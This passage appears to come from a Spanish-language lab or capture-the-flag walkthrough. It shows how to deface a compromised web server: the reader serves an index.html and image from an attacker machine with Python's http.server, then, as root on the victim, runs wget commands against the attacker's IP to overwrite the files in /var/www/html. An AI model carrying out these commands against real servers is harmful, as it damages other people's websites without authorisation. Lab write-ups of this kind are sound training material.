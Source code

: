 y esto sera lo que vera la "victima"

en nuestra maquina atacante crearemos una carpeta que contenga estas 2 cosas 
![[20250803175927.png]](chocolate-images/20250803175927.png)

el index.html y la imagen que queramos poner 

a continuación abrimos con python un servidor local por el puerto 8081 por ejemplo

```bash
python3 -m http.server 8081
```

## Maquina victima 

ahora desde la maquina victima una vez somos root vamos a ir al directorio `/var/www/html`

y ejecutaremos estos dos comandos

```bash
wget http://192.168.1.182:8081/index.html -O index.html
```

```bash
wget http://192.168.1.182:8081/panda.png -O panda.png
```

tendreis que poner vuestra ip el puerto que abristeis y el nombre de la imagen que hayáis puesto en el html

```bash
wget http://<IP ATACANTE>:<PUERTO ELEGIDO>/<IMAGEN>.png -O <IMAGEN>.png
```

Y esto quedaria asi

## RESULTADO

![[20250803180311.png]](chocolate-images/20250803180311.png)

la imagen tiene movimiento pero solo puedo dejaros una captura de pantalla os animo a probarlo y compartir vuestros resultados.
